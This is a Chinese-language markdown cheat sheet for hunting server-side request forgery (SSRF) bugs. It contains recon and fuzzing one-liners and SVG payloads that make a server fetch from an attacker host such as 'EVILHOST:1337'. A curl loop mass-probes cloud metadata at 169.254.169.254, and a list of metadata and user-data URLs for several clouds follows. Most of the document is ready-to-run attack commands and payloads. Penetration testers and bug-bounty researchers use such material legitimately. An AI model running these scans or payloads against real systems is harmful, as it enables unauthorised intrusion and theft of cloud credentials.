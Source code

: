 # SSRF 漏洞挖掘技巧

## 0x1 自动化挖掘SSRF

### 0x1.1 组合思路

![Et9d-mlXYAE7cg0](常用的SSRF参数.assets/Et9d-mlXYAE7cg0-3134197.jpeg)





### 0x1.2 burp插件SSRF-king

```
git clone https://github.com/ethicalhackingplayground/ssrf-king
gradle build
```

> 自动使用burpcollaborator来进行探测非常方便

介绍链接:https://www.kitploit.com/2021/01/ssrf-king-ssrf-plugin-for-burp.html?utm_source=dlvr.it&utm_medium=twitter

## 0x1.3 one-liner

```
1 Run getallurls for all assets & merge results
2 `cat results | grep "url="| anti-burl | tee ssrf.txt`
3 Review & cleanup list 
4 Fuzz all "url-like" params w/ Burp collab & #ffuf
```





## 常用的SSRF参数

```
?url=[SSRF]
?q=[SSRF]
?u=[SSRF]
?link=[SSRF]
?host=[SSRF]
?file=[SSRF]
?path=[SSRF]
?imgurl=[SSRF]
?src=[SSRF]
?consumerUri=[SSRF]
```



##  挖掘SSRF一些技巧

### svg服务端图片处理导致的盲ssrf

Content-Type: image/svg+xml

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="http://<EXAMPLE_SERVER>/image.jpeg" /></svg>


<svg xmlns:svg=”http://w3.org/2000/svg" xmlns=”http://w3.org/2000/svg" xmlns:xlink=”http://w3.org/1999/xlink" width=”200" height=”200">
<image height=”30" width=”30" xlink:href=”http://EVILHOST:1337/SVG-SSRF-TEST" />
</svg>
```

利用参考:https://hackerone.com/reports/223203



## oneliner

1/4

```
cat params.txt | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I host -P 50 bash -c "curl -ks 'host' | grep \"compute.internal\" && echo -e \"[VULNERABLE] - X \n \"" | grep "VULN"
```

2/4

```
cat ssrf.txt | qsreplace "interactsh server ID" | anew -q ssrf_test.txt
ffuf -w ssrf_test.txt -u FUZZ -p "0.6-1.2" -H "(header in thread)" -t 200 -s
```

3/4

```
subfinder -d http://target.com -all -silent | httpx -silent -threads 500 | anew -q subdomains.txt

cat subdomains.txt | gauplus --random-agent -b png,jpg,svg,gif -t 500 | anew -q gau_output.txt
```

4/4

```
cat subdomains.txt | xargs -P 30 -I host bash -c "echo host | waybackurls | anew -q wayback_output.txt"

cat wayback_output.txt gau_output.txt | urldedupe -s | anew -q params.txt

cat parameters.txt | gf ssrf | anew -q ssrf.txt
```



## 云端利用读取敏感数据

```
#Oracle Cloud
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/

#Alibaba (2/4)
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id

#Digital Ocean (3/4)
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname

(4/4)
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```



## 相关的在线工具

记录触发点:

 https://ssrftest.com/

https://webhook.site/ (可以自定义文件内容)